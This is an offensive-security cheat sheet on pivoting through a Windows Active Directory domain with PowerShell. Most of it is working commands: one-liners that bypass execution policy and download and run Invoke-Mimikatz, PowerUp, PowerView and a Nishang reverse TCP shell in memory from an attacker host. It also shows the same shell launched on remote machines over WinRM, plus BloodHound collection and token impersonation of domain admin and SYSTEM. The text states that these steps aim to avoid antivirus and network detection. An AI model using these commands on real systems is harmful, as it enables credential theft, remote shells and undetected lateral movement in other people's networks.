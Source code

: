# Pivoting

Pivoting means to move across machines in an environment. This article is about using different techniques to achieve both enumeration of the domain, popping shells, and executing exploits to gain further access. Of course we use the prevalence of Powershell in modern Windows environments to our advantage. We also string together many of these tricks towards efficient and stealthy hacking with a small footprint. Powershhell can do a lot straight into memory without dropping files to disk. BOX01 will be the name of the example box in this article. 10.10.10.10 is also just an example of what would be your local IP address when performing such attacks. Hosting files for download from kali is easy using `python -SimpleHTTPServer 80`

It can also be wise to here set up a local certificate on the server and use HTTPS/443 to avoid detection by network security controls.

Most of these tricks can be employed with only a domain user.

### Downloading/uploading files

Downloading files to boxes willsometimes be necessary, but don't forget that Powershell has the ability to do so much both remotely and execute straight in memory, which is better when you need to be a ninja or bypass things like Antivirus.

This will download a file to the current folder with the same name. An interactive powershell is not necessary for running these commands. They can be ran straight from CMD.

`Powershell.exe -nop -exec bypass -c "IEX (New-Object System.Net.WebClient).Downloadfile('http://10.10.10.10/file.txt');"`

This will download to a specific folder and with a specific name as specified in the second argument of the DownloadFile function.

`Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadFile('http://10.10.10.10/PowerView.ps1','C:\tmp\PowerView.ps1');"`

### BloodHound

Powershell -exec bypass

Import-module sharphound.ps1

Invoke-BloodHound -CollectionMethod ACL,ObjectProps,Default -CompressData -SkipPing

### Remoting

Using WMIC, check which users have sessions on a remote machine. Local administrator privileges are not necessary to execute this remotely.

```
wmic /node:box01.lab.local path win32_loggedonuser get antecedent
```

Powershell supports WinRM natively, which allows remote execution of commands. Here is how to execute a command on a remote box the current user has access to only using tokens, \(no prompt for password or PTH\). Here the hostname command is used for verification, but you can essentially replace it with any command, like powershell.

`Invoke-Command -ComputerName BOX01 -Scriptblock {hostname}`

### Powerview

Powerview is a super useful set of tools for enumerating a domain. The script and full command list can be found here:

[https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

In powerview, there is a super useful function called `Find-LocalAdminAccess` which enumerates which machines the current user is local administrator on. This can be very useful, as you can then remotely execute things like mimikatz on those boxes straight into memory to get the credentials of domain users. If you need an overview of what groups and users are local admin on every box in the environment you can use `Invoke-EnumerateLocalAdmin`



If you want to go hail mary and fuck shit up you can run every single module in Powerview:

In PowerUp.ps1, add `Invoke-AllChecks` at the bottom of the file. This makes the powershell script execute that function straight into memory after the string has been downloaded. This works for any function inside a powershell-script.

`Powershell.exe -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.47/PowerUp.ps1'); Invoke-AllChecks”`

### Mimikatz

Similar as with powervioew, add a line at the bottom of the ps1 file stating the command you want to execute.  Immediate results straight in the terminal!

```
Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1');"
```

### Shells

Ninshang shells are the shit [https://github.com/samratashok/nishang/tree/master/Shells](https://github.com/samratashok/nishang/tree/master/Shells)

```
Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1');"
```

We can do the same thing remotely to a box we have access to using WinRM.

```powershell
Invoke-Command -ComputerName BOX01  -Scriptblock {Powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClien
t).DownloadString('http://10.10.10.10/Invoke-PowerShellTcp.ps1');"}
```

Should also start looking into using HTTPS shells here to avoid detection.

### Token impersonation

We can do token impersonation completely without Meterpreter, which is really nice. This trick spawns a new thread, but also works in the same thread. However, if you type whoami it might still show the old user. If you however spawn a new process and migrate to that you will have a shell as the account you are impersonating.

Invokes token impersonation on a domain user. If this doesn't work you can try impersonating SYSTEM and then dropping credentials using mimikatz.

`Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"`

`Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"`

`Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"`

